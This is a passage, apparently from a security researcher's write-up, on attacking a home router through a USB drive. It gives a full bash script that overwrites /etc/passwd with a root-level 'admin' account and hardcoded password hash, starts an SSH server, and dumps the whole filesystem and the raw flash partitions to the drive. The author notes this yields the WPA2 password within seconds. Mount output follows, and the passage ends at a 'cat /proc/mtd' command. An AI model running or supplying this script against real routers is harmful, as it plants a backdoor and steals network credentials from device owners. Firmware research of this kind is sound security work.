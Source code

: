 ```bash
#!/bin/bash
if [ ! -e /etc/passwd.1 ]; then
	cp /etc/passwd /etc/passwd.1

    # dropbear_rsa_host_key has to be prepared on the USB drive 
    echo "admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh" > /etc/passwd
    dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22

    # Dump router FS to the drive as tar
    WHERE=/var/tmp/disk/HOMEROUTER
    mkdir -p ${WHERE}
    tar -cvpf ${WHERE}/router-image-root.tar -X/var/tmp/disk/tar-exclude /
    sync

    ## dd all mounted file systems
    for i in 0 1 2 3 4 5 6 7 8 9 10; do echo "CurDisk: mtdblock$i"; dd if="/dev/mtdblock${i}"\
           of="${WHERE}/fw-${i}.bin" bs=1 conv=noerror; done
    for i in 0 1 2 3 4 5 6 7 8 9 10; do echo "CurDisk: mtd$i"; dd if="/dev/mtd${i}" \
           of="${WHERE}/fw-${i}b.bin" bs=1 conv=noerror; done
    sync

    # Make simple FS copy
    DDIR=`pwd`
    WHERE=/var/tmp/media/0AAA-0E65/HOMEROUTER
    cd /
	mkdir -p $WHERE
	find /proc -type f | grep -v '/sys/' | grep -v '/net/' | grep -v '/kmsg' | \
       while read F ; do
   		D=${WHERE}/${F%/*}
   		echo "D: $D  F: $F WHERE: ${WHERE}$F"
   		test -d "$D" || mkdir -p $D && echo "DIR: $D"
   		test -f "${WHERE}$F" || cat $F > ${WHERE}$F
	done
	cd "$DDIR"
fi
```

This is actually very powerful and convenient attack vector. One comes with USB drive to the router,
plugs it in and has a WPA2 password in seconds (all system configuration).

I’ve created a TAR of the whole filesystem plus raw binary images of the mounted file system.
With SSH I could start to mess around with the router firmware.

Firstly, the quick review of mounted file systems:

```
# mount
rootfs on / type rootfs (rw)
/dev/root on / type squashfs (ro,relatime)
proc on /proc type proc (rw,relatime)
ramfs on /var type ramfs (rw,relatime)
sysfs on /sys type sysfs (rw,relatime)
tmpfs on /dev type tmpfs (rw,relatime)
devpts on /dev/pts type devpts (rw,relatime,mode=600)
/dev/mtdblock10 on /nvram type jffs2 (rw,relatime)
tmpfs on /fss type tmpfs (rw,relatime)
/dev/mtdblock6 on /fss/gw type squashfs (ro,relatime)
/dev/mtdblock7 on /fss/fss2 type squashfs (ro,relatime)
/dev/mtdblock9 on /fss/fss3 type squashfs (ro,relatime)
tmpfs on /etc type tmpfs (rw,relatime)
/dev/sda1 on /var/tmp/media/0AAA-0E65 type vfat (rw,relatime,fmask=0022,dmask=0022,codepage=cp437,iocharset=utf8,shortname=mixed,errors=remount-ro)

# cat /proc/mtd
```